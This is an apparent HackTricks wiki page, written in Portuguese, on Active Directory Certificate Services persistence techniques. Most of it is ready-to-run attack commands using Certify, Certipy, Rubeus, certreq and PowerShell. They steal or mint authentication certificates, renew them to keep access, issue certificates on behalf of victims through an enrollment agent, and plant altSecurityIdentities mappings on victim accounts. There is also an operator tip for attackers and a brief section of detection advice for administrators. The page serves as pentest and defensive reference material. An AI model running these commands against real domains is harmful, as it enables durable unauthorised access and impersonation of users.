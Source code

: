 # AD CS Account Persistence

{{#include ../../../banners/hacktricks-training.md}}

**Este é um pequeno resumo dos capítulos de persistência de conta da pesquisa incrível de [https://specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)**

## Entendendo o Roubo de Credenciais de Usuário Ativo com Certificados – PERSIST1

Em um cenário onde um certificado que permite a autenticação de domínio pode ser solicitado por um usuário, um atacante tem a oportunidade de solicitar e roubar esse certificado para manter a persistência em uma rede. Por padrão, o template `User` no Active Directory permite tais solicitações, embora às vezes possa estar desativado.

Usando [Certify](https://github.com/GhostPack/Certify) ou [Certipy](https://github.com/ly4k/Certipy), você pode procurar por templates habilitados que permitem autenticação de cliente e então solicitar um:
```bash
# Enumerate client-auth capable templates
Certify.exe find /clientauth

# Request a user cert from an Enterprise CA (current user context)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User

# Using Certipy (RPC/DCOM/WebEnrollment supported). Saves a PFX by default
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' -template 'User' -out user.pfx
```
O poder de um certificado reside em sua capacidade de autenticar como o usuário a que pertence, independentemente de alterações de senha, desde que o certificado permaneça válido.

Você pode converter PEM para PFX e usá-lo para obter um TGT:
```bash
# Convert PEM returned by Certify to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Use certificate for PKINIT and inject the TGT
Rubeus.exe asktgt /user:john /certificate:C:\Temp\cert.pfx /password:CertPass! /ptt

# Or with Certipy
certipy auth -pfx user.pfx -dc-ip 10.0.0.10
```
> Nota: Combinado com outras técnicas (veja as seções de THEFT), a autenticação baseada em certificado permite acesso persistente sem tocar no LSASS e mesmo a partir de contextos não elevados.

## Obtendo Persistência de Máquina com Certificados - PERSIST2

Se um atacante tiver privilégios elevados em um host, ele pode inscrever a conta de máquina do sistema comprometido para um certificado usando o modelo padrão `Machine`. Autenticar-se como a máquina habilita S4U2Self para serviços locais e pode fornecer persistência durável do host:
```bash
# Request a machine certificate as SYSTEM
Certify.exe request /ca:dc.theshire.local/theshire-DC-CA /template:Machine /machine

# Authenticate as the machine using the issued PFX
Rubeus.exe asktgt /user:HOSTNAME$ /certificate:C:\Temp\host.pfx /password:Passw0rd! /ptt
```
## Extending Persistence Through Certificate Renewal - PERSIST3

Abusar dos períodos de validade e renovação de modelos de certificado permite que um atacante mantenha acesso a longo prazo. Se você possui um certificado emitido anteriormente e sua chave privada, pode renová-lo antes da expiração para obter uma nova credencial de longa duração sem deixar artefatos de solicitação adicionais vinculados ao principal original.
```bash
# Renewal with Certipy (works with RPC/DCOM/WebEnrollment)
# Provide the existing PFX and target the same CA/template when possible
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -pfx user_old.pfx -renew -out user_renewed.pfx

# Native Windows renewal with certreq
# (use the serial/thumbprint of the cert to renew; reusekeys preserves the keypair)
certreq -enroll -user -cert <SerialOrID> renew [reusekeys]
```
> Dica operacional: Acompanhe os prazos de validade dos arquivos PFX mantidos pelo atacante e renove-os antecipadamente. A renovação também pode fazer com que os certificados atualizados incluam a extensão de mapeamento SID moderno, mantendo-os utilizáveis sob regras de mapeamento DC mais rigorosas (veja a próxima seção).

## Plantando Mapeamentos de Certificado Explícitos (altSecurityIdentities) – PERSIST4

Se você puder escrever no atributo `altSecurityIdentities` de uma conta alvo, poderá mapear explicitamente um certificado controlado pelo atacante a essa conta. Isso persiste através de mudanças de senha e, ao usar formatos de mapeamento fortes, permanece funcional sob a aplicação moderna do DC.

Fluxo de alto nível:

1. Obtenha ou emita um certificado de autenticação de cliente que você controla (por exemplo, inscreva-se no template `User` como você mesmo).
2. Extraia um identificador forte do certificado (Issuer+Serial, SKI ou SHA1-PublicKey).
3. Adicione um mapeamento explícito no `altSecurityIdentities` do principal da vítima usando esse identificador.
4. Autentique-se com seu certificado; o DC o mapeia para a vítima através do mapeamento explícito.

Exemplo (PowerShell) usando um mapeamento forte de Issuer+Serial:
```powershell
# Example values - reverse the issuer DN and serial as required by AD mapping format
$Issuer  = 'DC=corp,DC=local,CN=CORP-DC-CA'
$SerialR = '1200000000AC11000000002B' # reversed byte order of the serial
$Map     = "X509:<I>$Issuer<SR>$SerialR"

# Add mapping to victim. Requires rights to write altSecurityIdentities on the object
Set-ADUser -Identity 'victim' -Add @{altSecurityIdentities=$Map}
```
Em seguida, autentique-se com seu PFX. Certipy obterá um TGT diretamente:
```bash
certipy auth -pfx attacker_user.pfx -dc-ip 10.0.0.10
```
Notas
- Use apenas tipos de mapeamento fortes: X509IssuerSerialNumber, X509SKI ou X509SHA1PublicKey. Formatos fracos (Subject/Issuer, apenas Subject, e-mail RFC822) estão obsoletos e podem ser bloqueados pela política do DC.
- A cadeia de certificados deve ser construída até uma raiz confiável pelo DC. CAs empresariais no NTAuth são tipicamente confiáveis; alguns ambientes também confiam em CAs públicas.

Para mais informações sobre mapeamentos explícitos fracos e caminhos de ataque, veja:

{{#ref}}
domain-escalation.md
{{#endref}}

## Agente de Inscrição como Persistência – PERSIST5

Se você obtiver um certificado válido de Agente de Solicitação de Certificado/Agente de Inscrição, poderá criar novos certificados com capacidade de logon em nome dos usuários à vontade e manter o PFX do agente offline como um token de persistência. Fluxo de abuso:
```bash
# Request an Enrollment Agent cert (requires template rights)
Certify.exe request /ca:CA-SERVER\CA-NAME /template:"Certificate Request Agent"

# Mint a user cert on behalf of another principal using the agent PFX
Certify.exe request /ca:CA-SERVER\CA-NAME /template:User \
/onbehalfof:CORP\\victim /enrollcert:C:\Temp\agent.pfx /enrollcertpw:AgentPfxPass

# Or with Certipy
certipy req -u 'john@corp.local' -p 'Passw0rd!' -ca 'CA-SERVER\CA-NAME' \
-template 'User' -on-behalf-of 'CORP/victim' -pfx agent.pfx -out victim_onbo.pfx
```
Revogação do certificado do agente ou permissões do modelo é necessária para expulsar essa persistência.

## 2025 Aplicação Rigorosa de Mapeamento de Certificados: Impacto na Persistência

O Microsoft KB5014754 introduziu a Aplicação Rigorosa de Mapeamento de Certificados em controladores de domínio. Desde 11 de fevereiro de 2025, os DCs padrão para Aplicação Total, rejeitando mapeamentos fracos/ambíguos. Implicações práticas:

- Certificados anteriores a 2022 que não possuem a extensão de mapeamento SID podem falhar no mapeamento implícito quando os DCs estão em Aplicação Total. Os atacantes podem manter o acesso renovando certificados através do AD CS (para obter a extensão SID) ou plantando um mapeamento explícito forte em `altSecurityIdentities` (PERSIST4).
- Mapeamentos explícitos usando formatos fortes (Issuer+Serial, SKI, SHA1-PublicKey) continuam a funcionar. Formatos fracos (Issuer/Subject, Subject-only, RFC822) podem ser bloqueados e devem ser evitados para persistência.

Os administradores devem monitorar e alertar sobre:
- Mudanças em `altSecurityIdentities` e emissão/renovações de certificados de Agente de Inscrição e Usuário.
- Logs de emissão de CA para solicitações em nome de e padrões de renovação incomuns.

## Referências

- Microsoft. KB5014754: Mudanças na autenticação baseada em certificado em controladores de domínio do Windows (cronograma de aplicação e mapeamentos fortes).
https://support.microsoft.com/en-au/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
- Certipy Wiki – Referência de Comando (`req -renew`, `auth`, `shadow`).
https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference

{{#include ../../../banners/hacktricks-training.md}}
